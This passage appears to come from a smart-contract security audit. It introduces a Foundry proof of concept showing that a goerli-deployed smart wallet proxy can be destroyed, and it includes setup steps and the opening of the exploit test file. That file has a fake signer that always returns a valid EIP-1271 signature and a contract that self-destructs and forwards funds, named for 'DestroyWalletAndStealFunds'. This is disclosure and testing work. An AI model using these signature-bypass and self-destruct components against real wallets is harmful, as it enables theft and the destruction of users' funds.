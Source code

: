 ### Foundry POC

The POC will demonstrate impact #1. It will show that the proxy does not exist after the attack and EOAs cannot interact with the wallet.

The POC was built using the Foundry framework which allowed me to validate the vulnerability against the state of deployed contract on goerli (Without interacting with them directly). This was approved by the sponsor.

The POC use a smart wallet proxy contract that is deployed on `goerli` chain:
proxy: 0x11dc228AB5BA253Acb58245E10ff129a6f281b09

You will need to install a foundry. Please follow these instruction for the setup:
https://book.getfoundry.sh/getting-started/installation

After installing, create a workdir by issuing the command: `forge init --no-commit` 

Create the following file in `test/DestroyWalletAndStealFunds.t.sol`:
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

contract Enum {
    enum Operation {Call, DelegateCall}
}
interface SmartAccount {
    function execTransaction(
        Transaction memory _tx,
        uint256 batchId,
        FeeRefund memory refundInfo,
        bytes memory signatures
    ) external payable returns (bool success); 
    function getNonce(uint256 batchId) external view returns (uint256);
}
struct Transaction {
        address to;
        uint256 value;
        bytes data;
        Enum.Operation operation;
        uint256 targetTxGas;
    }
struct FeeRefund {
        uint256 baseGas;
        uint256 gasPrice; //gasPrice or tokenGasPrice
        uint256 tokenGasPriceFactor;
        address gasToken;
        address payable refundReceiver;
    }
contract FakeSigner {
    bytes4 internal constant EIP1271_MAGIC_VALUE = 0x20c13b0b;

    // Always return valid EIP1271_MAGIC_VALUE
    function isValidSignature(bytes memory data, bytes memory contractSignature) external returns (bytes4) {
        return EIP1271_MAGIC_VALUE;
    }
}
contract SelfDestructingContract {
    // All this does is self destruct and send funds to "to"
    function selfDestruct(address to) external {
        selfdestruct(payable(to));
    }
}

```